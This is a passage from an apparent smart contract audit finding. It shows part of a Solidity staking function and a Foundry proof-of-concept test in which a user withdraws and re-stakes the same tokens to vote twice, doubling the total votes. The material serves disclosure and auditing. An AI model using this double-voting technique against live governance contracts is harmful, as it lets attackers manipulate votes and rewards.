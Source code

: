 ```solidity
        });

        // update total lp supply
        _stakedSupply = _stakedSupply + amount;
        _stakedSupplyWithMultiplier = _stakedSupplyWithMultiplier + amountWithMultiplier;

        emit CreatePosition(currentTokenId, amount, lockDuration);
    }
```

## Proof of Concept

Scenario 1:

```solidity
function testGT_vote_twice_with_the_same_stake() public {
        vm.prank(DEV);
        _voter.updateMinimumLockTime(2 weeks);

        _stakingToken.mint(ALICE, 1 ether);

        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether, 2 weeks);
        vm.stopPrank();

        skip(1 weeks);

        vm.prank(DEV);
        _voter.startNewVotingPeriod();

        vm.startPrank(ALICE);
        _voter.vote(1, _getDummyPools(), _getDeltaAmounts());
        vm.expectRevert(IVoter.IVoter__AlreadyVoted.selector);
        _voter.vote(1, _getDummyPools(), _getDeltaAmounts());
        vm.stopPrank();

        assertEq(_voter.getTotalVotes(), 1 ether);

        skip(1 weeks + 1);

        vm.startPrank(ALICE);
        _pool.withdrawFromPosition(1, 1 ether);
        vm.stopPrank();

        vm.startPrank(ALICE);
        vm.expectRevert();
        _voter.vote(1, _getDummyPools(), _getDeltaAmounts());
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether, 2 weeks);
        _voter.vote(2, _getDummyPools(), _getDeltaAmounts());
        vm.stopPrank();

        assertEq(_voter.getTotalVotes(), 2 ether);
    }
```
